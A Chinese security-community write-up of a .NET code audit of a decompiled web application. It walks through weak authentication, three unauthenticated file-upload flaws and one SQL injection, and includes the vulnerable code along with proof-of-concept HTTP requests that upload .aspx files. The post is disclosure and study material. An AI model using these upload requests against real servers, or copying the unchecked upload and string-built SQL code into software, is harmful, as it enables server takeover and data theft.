# 记一次完整的net代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/18825  
> **文章ID**: 18825

---

# 环境准备：image.png

代码是一堆dll文件，批量反编译：



反编译完成后，就开始代码审计。

# 鉴权分析：

## API 权限控制

Web API 部分动作采用 “请求头 token 校验 + 服务鉴权” 机制（如 APPController 的大部分 API）：仅当 Authorize 鉴权通过后，才允许执行后续业务逻辑；若鉴权失败，则直接返回错误字符串，权限控制逻辑相对规范。

## MVC Controller 权限风险

MVC Controller 中大量动作标注 IgnoreRightFilter，直接绕过系统统一权限过滤器，导致此类接口支持匿名访问。典型场景包括：

* 内容管理类接口（如 NewsManage/UploadNewsImg）；
* 开关查询类接口（如 Swicth/\* 下多数查询接口）；
* 数据导出与统计类接口（若干导出 / 统计 / 地图接口）。

## 会话管理不规范

系统存在会话标识（响应中常见 ASP.NET\_SessionId），但会话机制未实现统一有效利用：多数接口未依赖 Session 进行鉴权或授权，会话标识仅存在却未发挥权限管控作用，导致会话资源浪费，也无法通过 Session 强化身份验证安全性。

## API 中存在部分Header token 鉴权

鉴权比较简单，在读取 Header 中 token，调用 Authorize 判断是否继续。



## MVC 使用 IgnoreRightFilter

MVC Controller 使用IgnoreRightFilter 当作统一权限过滤器，导致接口匿名可访问，还返回直达 Web 根目录的 URL。



# 漏洞分析

# 第一处文件上传分析



```
	public HttpResponseMessage uploadAttachment(EventyHandleSaveFilter filter)
		{
			string content = new APPService().uploadAttachment(filter);
			return new HttpResponseMessage
			{
				Content = new StringContent(content, Encoding.GetEncoding("UTF-8"), "application/json")
			};
		}
```





```
	public string uploadAttachment(EventHandleSaveFilter filter)
		{
			try
			{
				using environmentEntities environmentEntities = new environmentEntities();
				Hashtable hashtable = new Hashtable();
				string fileStr = filter.FileStr;
				string fileFormat = filter.FileFormat;
				if (fileStr != null && fileStr.Length > 0)
				{
					hashtable = new EventApi().uploadFileTemp(fileStr, fileFormat);
					if (!bool.Parse(hashtable["returnFlag"].ToString()))
					{
						return JsonHelper.ObjToJson(null, 502, "图片上传失败");
					}
					string text = hashtable["filePaht"].ToString();
					string name = hashtable["fileName"].ToString();
					t_attachment t_attachment = new t_attachment();
					t_attachment.Id = BaseIdGenerator.Instance.GetId();
					t_attachment.CreateTime = DateTime.Now;
					t_attachment.Name = name;
					t_attachment.Path = text;
					t_attachment.Type = 0;
					environmentEntities.t_attachment.Add(t_attachment);
					if (environmentEntities.SaveChanges() > 0)
					{
						return JsonHelper.ObjToJson(new Hashtable
						{
							{ "path", text },
							{ "id", t_attachment.Id }
						}, 200, AppLoginResult.Success.ToDescription());
					}
					return JsonHelper.ObjToJson(null, 502, "图片保存失败");
				}
				return JsonHelper.ObjToJson(null, 502, "缺少图片");
			}
			catch
			{
				return JsonHelper.ObjToJson(null, 502, AppLoginResult.Err.ToDescription());
			}
		}
```

发现在new EventApi().uploadFileTemp（收fileStr、fileFormat参数），未明确用 “读 Header token+Authorize” 鉴权，发现可以直接前台上传。



```
		public Hashtable uploadFileTemp(string fileByteStr, string fileformat)
		{
			bool flag = false;
			Hashtable hashtable = new Hashtable();
			try
			{
				string text = Path.Combine(HttpRuntime.AppDomainAppPath, "UpLoad\EventPic");
				if (!Directory.Exists(text))
				{
					Directory.CreateDirectory(text);
				}
				Random random = new Random();
				string text2 = DateTime.Now.ToString("yyyyMMddHHmmss") + random.Next(1000, 9999);
				string path = text + "\" + text2 + "." + fileformat;
				byte[] array = Convert.FromBase64String(fileByteStr);
				using FileStream fileStream = new FileStream(path, FileMode.Create, FileAccess.Write);
				fileStream.Write(array, 0, array.Length);
				fileStream.Flush();
				flag = true;
				hashtable.Add("filePaht", "/UpLoad/EventPic/" + text2 + "." + fileformat);
				hashtable.Add("fileName", text2 + "." + fileformat);
			}
```



然后在new EventApi().uploadFileTemp 是文件上传接口：文件后缀名通过 fileFormat 参数完全可控，文件内容以 Base64 加密形式传输，最终会写入站点 /UpLoad/EventPic/ 目录。

```
[System.Web.Http.HttpPost]
public HttpResponseMessage uploadAttachment(EventyHandleSaveFilter filter)
{
	string content = new APPService().uploadAttachment(filter);
	return new HttpResponseMessage
	{
		Content = new StringContent(content, Encoding.GetEncoding("UTF-8"), "application/json")
	};
}
```

结合接口本身未做鉴权的问题，这种 “未鉴权上传 + 后缀名可控 + Base64 原样落盘 + 返回访问路径” 的全流程设计，然后上传指定可执行后缀（如 .aspx），上传后通过返回的访问路径直接触发文件解析，进而获取服务器权限。

```
public string uploadAttachment(EventHandleSaveFilter filter)
{
	try
	{
		using environmentEntities environmentEntities = new environmentEntities();
		Hashtable hashtable = new Hashtable();
		string fileStr = filter.FileStr;
		string fileFormat = filter.FileFormat;
		if (fileStr != null && fileStr.Length > 0)
		{
			hashtable = new EventApi().uploadFileTemp(fileStr, fileFormat);
			if (!bool.Parse(hashtable["returnFlag"].ToString()))
			{
				return JsonHelper.ObjToJson(null, 502, "图片上传失败");
			}
			string text = hashtable["filePaht"].ToString();
			string name = hashtable["fileName"].ToString();
			...
			return JsonHelper.ObjToJson(new Hashtable
			{
				{ "path", text },
				{ "id", t_attachment.Id }
			}, 200, AppLoginResult.Success.ToDescription());
		}
		return JsonHelper.ObjToJson(null, 502, "缺少图片");
	}
	catch
	{
		return JsonHelper.ObjToJson(null, 502, AppLoginResult.Err.ToDescription());
	}
}
```

文件名由时间戳+4位随机数组成，路径在网站根目录 UpLoad\EventPic`下，扩展名完全取自客户端 ileformat

漏洞点在：JuCheap.Services.decompiled.cs

```

public Hashtable uploadFileTemp(string fileByteStr, string fileformat)
{
	bool flag = false;
	Hashtable hashtable = new Hashtable();
	try
	{
		string text = Path.Combine(HttpRuntime.AppDomainAppPath, "UpLoad\EventPic");
		if (!Directory.Exists(text))
		{
			Directory.CreateDirectory(text);
		}
		Random random = new Random();
		string text2 = DateTime.Now.ToString("yyyyMMddHHmmss") + random.Next(1000, 9999);
		string path = text + "\" + text2 + "." + fileformat;
		byte[] array = Convert.FromBase64String(fileByteStr);
		using FileStream fileStream = new FileStream(path, FileMode.Create, FileAccess.Write);
		fileStream.Write(array, 0, array.Length);
		fileStream.Flush();
		flag = true;
		hashtable.Add("filePaht", "/UpLoad/EventPic/" + text2 + "." + fileformat);
		hashtable.Add("fileName", text2 + "." + fileformat);
	}
	catch (Exception)
	{
		flag = false;
	}
	hashtable.Add("returnFlag", flag);
	return hashtable;
}
```

## 漏洞利用：

uploadAttachment类在继承ApiController的APPController中，该控制器多数 API 需 token+Authorize 鉴权。需确认此类是否延续该鉴权，若绕开鉴权且上传时接收 Base64 文件内容 / 后缀参数、不校验直接落盘并返访问路径，产生命令执行漏洞。



而且uploadAttachment类位于继承ApiController的APPController中，按.NET 路由规则：常规控制器路由多为/APP/uploadAttachment，但因继承ApiController（API 控制器默认需加/api前缀），故完整路由路径应为 /api/APP/uploadAttachment。

```
POST /api/APP/uploadAttachment HTTP/1.1
Host: 
Content-Type: application/json
Accept: */*
Connection: close
Content-Length: 45

{"FileStr":"aGVsbG8xMTE=","FileFormat":"aspx"}
```





## 完整分析：



.

文件保存逻辑：



# 文件上传漏洞第二处：

定位漏洞位置：JuCheap.Web.decompiled.cs

```

[IgnoreRightFilter]
public JsonResult UploadNewsImg()
{
    HttpFileCollection files = System.Web.HttpContext.Current.Request.Files;
    bool flag = false;
    string value = "";
    Hashtable hashtable = new Hashtable();
    
    if (files.Count <= 0)
    {
        flag = false;
        value = "没有接收到图片";
    }
    
    HttpPostedFile httpPostedFile = files[0];
    if (httpPostedFile == null)
    {
        flag = false;
        value = "没有接收到图片";
    }
    else
    {
        // 文件处理逻辑...
    }
    
    hashtable.Add("returnFlag", flag);
    hashtable.Add("errorMsg", value);
    return Json(hashtable, JsonRequestBehavior.AllowGet);
}
```

继续跟进，进入保存代码处

```
// JuCheap.Web.decompiled.cs:10840-10858
string text = Path.Combine(HttpRuntime.AppDomainAppPath, "UpLoad\News");
if (!Directory.Exists(text))
{
    Directory.CreateDirectory(text);
}

DateTime now = DateTime.Now;
string text2 = now.Year.ToString() + now.Month + now.Day + now.Hour + now.Minute + now.Second;
string text3 = httpPostedFile.FileName.Substring(httpPostedFile.FileName.LastIndexOf(".") + 1).ToLower();
string filename = text + "\" + text2 + "." + text3;
httpPostedFile.SaveAs(filename);

string host = base.Request.Url.Host;
int port = System.Web.HttpContext.Current.Request.Url.Port;
string value2 = "http://" + host + ":" + port + "/UpLoad/News/" + text2 + "." + text3;
hashtable.Add("imgurl", value2);
flag = true;
```

发现未对其上传进行限制，导致可以前台文件上传



## 漏洞复现

```
POST /NewsManage/UploadNewsImg HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="evil.aspx"
Content-Type: application/octet-stream

111
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



# 文件上传第三处：

JuCheap.Web.decompiled.cs

定义了文件上传参数请求。

```

[System.Web.Http.HttpPost]
public HttpResponseMessage VideoUpLoad(string WorkId, string FileStr)
{
    string content = _helpService.uploadVideo(WorkId, FileStr);
    return new HttpResponseMessage
    {
        Content = new StringContent(content, Encoding.GetEncoding("UTF-8"), "application/json")
    };
}
```

服务层：

JuCheap.Services.decompiled.cs:

定义了文件上传的整个流程。

```

public string uploadVideo(string WorkId, string FileStr)
{
    try
    {
        HttpFileCollection files = HttpContext.Current.Request.Files;
        using environmentEntities environmentEntities = new environmentEntities();
        t_workorder t_workorder = environmentEntities.t_workorder.Where((t_workorder item) => item.Id == WorkId).FirstOrDefault();
        Hashtable hashtable = new Hashtable();
        hashtable = uploadVideoTemp(files);
        if (!bool.Parse(hashtable["returnFlag"].ToString()))
        {
            return JsonHelper.ObjToJson(null, 502, "视频上传失败");
        }
        string text = hashtable["filePaht"].ToString();
        string text2 = hashtable["fileName"].ToString();
        t_attachment t_attachment = new t_attachment();
        t_attachment.Id = BaseIdGenerator.Instance.GetId();
        t_attachment.CreateTime = DateTime.Now;
        t_attachment.Name = text2;
        t_attachment.Path = text;
        t_attachment.Type = (sbyte)4;
        t_attachment.HandleId = t_workorder.EventYId;
        environmentEntities.t_attachment.Add(t_attachment);
        if (environmentEntities.SaveChanges() > 0)
        {
            Hashtable t = new Hashtable
            {
                { "path", text },
                { "id", t_attachment.Id }
            };
            Log(t_workorder.EventYId, text, text2 + "-okkk");
            return JsonHelper.ObjToJson(t, 200, AppLoginResult.Success.ToDescription());
        }
        return JsonHelper.ObjToJson(null, 502, "文件保存失败");
    }
    catch (Exception)
    {
        return JsonHelper.ObjToJson(null, 502, AppLoginResult.Err.ToDescription());
    }
}
```

文件保存逻辑：

JuCheap.Services.decompiled.cs

```

public Hashtable uploadVideoTemp(HttpFileCollection files)
{
    bool flag = false;
    Hashtable hashtable = new Hashtable();
    try
    {
        string text = Path.Combine(HttpRuntime.AppDomainAppPath, "UpLoad\EventVideo");
        if (!Directory.Exists(text))
        {
            Directory.CreateDirectory(text);
        }
        string[] allKeys = files.AllKeys;
        foreach (string name in allKeys)
        {
            HttpPostedFile httpPostedFile = files[name];
            if (!string.IsNullOrEmpty(httpPostedFile.FileName) && httpPostedFile.ContentLength <= 2097152)
            {
                Random random = new Random();
                string text2 = DateTime.Now.ToString("yyyyMMddHHmmss") + random.Next(1000, 9999);
                string text3 = httpPostedFile.FileName.Substring(httpPostedFile.FileName.LastIndexOf('.')).ToLower();
                string filename = text + "\" + text2 + text3;
                httpPostedFile.SaveAs(filename);
                flag = true;
                hashtable.Add("filePaht", "/UpLoad/EventVideo/" + text2 + text3);
                hashtable.Add("fileName", text2 + text3);
            }
        }
    }
    catch (Exception)
    {
        flag = false;
    }
    hashtable.Add("returnFlag", flag);
    return hashtable;
}
```

## 漏洞复现：

```
POST /api/APP/VideoUpLoad?WorkId=1 HTTP/1.1
Host: <HOST>
Connection: close
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 245

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="evil.aspx"
Content-Type: application/octet-stream

<%@ Page Language="C#" %><%Response.Write("Hello World");%>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



# SQL注入漏洞：

全局定位漏洞点，然后进入MainMonitor这个函数处



接着跟踪下面的函数，定位漏洞接口。



代码层分析：

直接拼接 SQL 查询

```
[HttpPost]
public JsonResult GetEnterpriseInfoY(string EnteroriseId, int Type)
{
    // 
    string sql = "SELECT * FROM enterprises WHERE Id = '" + EnteroriseId + "' AND Type = " + Type;
    
    // 执行查询
    var result = ExecuteQuery(sql);
    return Json(result);
}
```

服务层分析：

发现直接字符串拼接，未进行过滤。

```
public List<EnterpriseInfo> GetEnterpriseInfo(string enterpriseId, int type)
{
    using (var connection = new MySqlConnection(connectionString))
    {
=
        string sql = $"SELECT * FROM t_enterprise WHERE Id = '{enterpriseId}' AND Type = {type}";
        
        var command = new MySqlCommand(sql, connection);
        connection.Open();
        
        using (var reader = command.ExecuteReader())
        {
            // 处理结果
        }
    }
}
```

## 漏洞复现：



REF：

http://mp.weixin.qq.com/s?search\_click\_id=17710134741822833135-1757577180010-2926091602&\_\_biz=MzkzMzI3OTczNA==&mid=2247488083&idx=1&sn=ff3cfe0fda9788754fb3cd0e9b53d247&chksm=c38c09baa2509295bfdb717d0bcf9795fdcff4ca621221fc1dd335d9599f5f70bd896572332a&scene=7#rd

https://mp.weixin.qq.com/s/EmcxJUEGJGwpcDbrvFu7jQ
